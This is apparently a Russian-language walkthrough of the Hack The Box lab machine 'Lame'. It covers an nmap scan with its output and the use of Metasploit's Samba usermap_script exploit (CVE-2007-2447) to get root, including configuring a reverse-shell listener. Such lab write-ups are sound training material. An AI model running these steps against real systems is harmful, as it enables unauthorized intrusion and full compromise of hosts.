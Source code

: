 # 🟢 Lame(Linux, Easy)

###

![](<../.gitbook/assets/1 (1) (1) (1) (1).png>)

### Содержание:

Я считаю, что это самая простая машина на HTB, так как для ее прохождения потребуется только один эксплоит. Для начала мы просканируем порты с дефолтным nmap-скриптом. Затем, запустим метасплоит и найдем эксплоит для Samba версии 3.0.20(CVE-2007-2447). После того, как эксплоит отработает мы получим сразу рут-доступ.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.3 -oN nmap
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-30T12:13:06-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h35m41s, deviation: 3h32m09s, median: 5m40s
```

Используем флаг -Pn для принудительного сканирования портов, так как без него nmap считает, что хост "лежит".

### Ищем эксплоит в metasploit:

Теперь в метасплоите мы можем посмотреть эксплоиты для самбы версии **3.0.20**:

```
$ msfconsole
msf6 > search 3.0.20
```

Используем данный эксплоит:

```
exploit/multi/samba/usermap_script 2007-05-14 excellent    No    Samba "username map script" Command Execution
```

### Запускаем эксплоит и получаем рута:

```
msf6 > use exploit/multi/samba/usermap_script
```

Настраиваем так:

![](<../.gitbook/assets/2 (1) (1) (1).png>)

**RHOSTS** - удаленная машина, которую будем атаковать

**RPORT** - не меняем, он правильно выставлен

**LHOST** - свой айпи, можно узнать через:

```
$ ip r
```

**LPORT** - свой порт, который еще не занят, например, 9999.

```
msf6 exploit(multi/samba/usermap_script) > exploit
```

![](<../.gitbook/assets/3 (1) (1).png>)
